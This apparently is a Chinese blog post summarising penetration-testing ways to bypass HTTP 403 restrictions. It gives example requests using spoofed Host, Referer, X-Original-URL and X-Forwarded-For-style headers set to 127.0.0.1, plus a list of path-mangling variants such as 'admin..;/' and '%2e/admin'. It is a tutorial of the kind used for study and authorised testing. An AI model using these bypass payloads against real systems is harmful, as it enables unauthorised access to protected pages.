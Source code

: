 # 渗透测试如何利用403




今天面试问到这个问题了，我大概是知道怎么利用，就是说不太出来...哎还是用文字总结一下吧！



## 1.端口利用

扫描主机端口，找其它开放web服务的端口，访问其端口，挑软柿子。





## 2.修改HOST

**Host在请求头中的作用：**在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。



修改客户端请求头中的 Host 可以通过**修改 Host 值**修改为子域名或者ip来绕过来进行绕过二级域名；



**首先**对该目标域名进行子域名收集，整理好子域名资产（host字段同样支持IP地址）。先Fuzz测试跑一遍收集到的子域名，这里使用的是Burp的Intruder功能。若看到一个服务端返回200的状态码，即表面成功找到一个在HOST白名单中的子域名。我们利用firefox插件来修改HOST值，成功绕过访问限制。







## 3.覆盖请求 URL

尝试使用 **X-Original-URL** 和 X-Rewrite-URL 标头绕过 Web 服务器的限制。

通过支持 X-Original-URL 和 X-Rewrite-URL 标头，用户可以使用 X-Original-URL 或 X-Rewrite-URL HTTP 请求标头**覆盖请求 URL 中的路径，尝试绕过对更高级别的缓存和 Web 服务器的限制**

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
X-Original-URL: /auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET / HTTP/1.1
X-Rewrite-URL: /auth/login
Response
HTTP/1.1 200 OK

```





## 4.Referer 标头绕过

尝试使用 Referer 标头绕过 Web 服务器的限制。

介绍：Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。

```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

```





## 5.代理 IP

一般开发者会通过 Nginx 代理识别访问端 IP 限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host 等标头绕过 Web 服务器的限制。

```bash
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1

```

如：

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK

```





## 6.扩展名绕过

基于扩展名，用于绕过 403 受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200

```



## 7.扫描的时候

遇到 403 了，上目录扫描工具，扫目录，扫文件（<font color=red>记住，扫描的时候要打开探测403，因为有些网站的目录没有权限访问会显示403，但是在这个目录下面的文件，我们或许能扫描到并访问</font> ）











---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%A6%82%E4%BD%95%E5%88%A9%E7%94%A8403/  

